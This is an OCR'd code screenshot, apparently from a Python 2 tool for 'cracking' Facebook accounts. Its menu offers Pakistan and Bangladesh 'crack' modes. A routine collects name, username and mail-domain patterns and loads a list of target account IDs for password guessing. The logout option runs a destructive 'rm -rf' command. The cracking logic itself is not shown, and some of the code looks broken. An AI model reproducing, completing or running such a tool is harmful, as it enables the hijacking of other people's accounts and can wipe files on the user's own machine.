 def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r[●] Loging In "+o),;sys.stdout.flush();time.sleep(1)


back = 0
successful = []
cpb = []
oks = []
id = []


def menu():
	os.system('clear')
	print logo
	print "[1] Pakistan Crack Menu"
	print "[2] Bangladeshi Countries Crack Menu"
	print "[3] Follow Me On Facebook"
	print "[4] Log Out"
	print "[0] Exit            "
	print 50*"-"
	action()


def action():
	chb = raw_input("\n  ▄︻̷̿┻̿═━一   ")
	if chb =="":
		print "[!] Fill in correctly"
		action()
	elif chb =="1":
		crack_action()
	elif chb =="2":
	    crack_action2()
	elif chb =="3":
	    os.system("xdg-open https://www.facebook.com/shadow.micron/")
	    time.sleep(1)
	    menu()
	elif chb =="4":
	    os.system("rm -rf ....")
	    print
	    psb(" Logout successfully")
	elif chb =="0":
		exb()
	else:
		print "[!] Fill in correctly"
		action()


def crack_action():
	bch = ""
	if bch =="":
		os.system('clear')
		print logo
		try:
			idlist = (".txt")
			kn=raw_input(" 1st Name Without Space : ")
			k=raw_input(" Username Without Digits : ")
			c=raw_input(" Mail Domain : ")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()